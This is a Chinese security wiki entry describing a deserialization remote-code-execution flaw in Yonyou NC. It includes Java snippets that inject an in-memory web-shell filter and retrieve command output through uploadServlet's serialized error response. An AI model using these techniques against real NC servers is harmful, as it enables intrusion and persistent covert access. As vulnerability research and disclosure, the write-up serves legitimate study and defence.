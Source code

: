 ```yaml
---
title: 用友 NC 反序列化RCE漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 用友OA
---
```


# 用友 NC 反序列化RCE漏洞

## 漏洞描述

用友NC 存在反序列化 RCE漏洞，攻击者可利用控制服务器

## 漏洞影响

> [!NOTE]
>
> 用友 NC

## 漏洞复现

首先从任意文件上传说起

任意文件上传分析代码在`servlet.FileReceiveServlet`。在这里我们可以看到，从请求中读取流，然后转换为map类型并读取上传文件的路径。然后再读取待上传的文件。

![](/img/20210924013824509139.png)

而网上很多poc，大多都是基于此漏洞，利用反序列化上传一个文件到服务器。

这也就是去年的那个任意文件上传的反序列化漏洞。但是，但是，这个漏洞本质是一个反序列化漏洞。而且某C的classpath中，也存在apache commonscollections库，我们可以利用这个库，直接执行命令或者内存马。岂不是比任意文件上传舒服多了。

**内存马**

老样子，在反序列化中想执行任意代码，一般都依靠xalan这个库。这次也不例外。

植入内存马，关键在于我们怎样找到context，只有找到context，我们才可以添加filter。好在某c中，我们只需要通过下面的代码既可以获取当前context，不需要从tomcat中获取context

```java
 Object obj = 改动Locator.getInstance().lookup("ServletContext");
        Field contextField = obj.getClass().getDeclaredField("context");
        contextField.setAccessible(true);
        obj = contextField.get(obj);
        Field contextField1 = obj.getClass().getDeclaredField("context");
        contextField1.setAccessible(true);
        addFitlertoTomcat(contextField1.get(obj));
```

剩下的就是常规操作，可以看我之前的内存马模型，基本不需要很大的改动即可完美适配。

![](/img/20210924013825680733.png)

**回显**

我们只需要找到这样一个servlet，即存在反序列化的readObject，又将错误信息写入到response中

不难看出 uploadServlet 就很满足这个需求。

```
out = new ObjectOutputStream(output);
            in = new ObjectInputStream(request.getInputStream());
            String dsName = (String)in.readObject();
            }
        } catch (Exception var14) {
            var14.printStackTrace();
            if (out == null) {
                throw new ServletException(var14);
            }

            out.writeObject(var14);
```

如果出错的话，将错误信息通过序列化写入到response中。好处在于，我们不需要麻烦的去找tomcat的response对象。

所以，我们将反序列化的payload，发送给uploadServlet即可。然后我们只需要读取响应，即可拿到服务器命令执行的回显结果。客户端代码可以这样写

```java

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(r));
        Exception e = (Exception) objectInputStream.readObject();
        Object obj = e.getCause();
        Field targetF = obj.getClass().getDeclaredField("target");
        targetF.setAccessible(true);
        obj = targetF.get(obj);
        Field msgF = obj.getClass().getSuperclass().getDeclaredField("detailMessage");
        msgF.setAccessible(true);
        String msg = msgF.get(obj).toString();
        System.out.println(msg);
```

## 参考文章

https://mp.weixin.qq.com/s/IdXYbjNVGVIasuwQH48Q1w

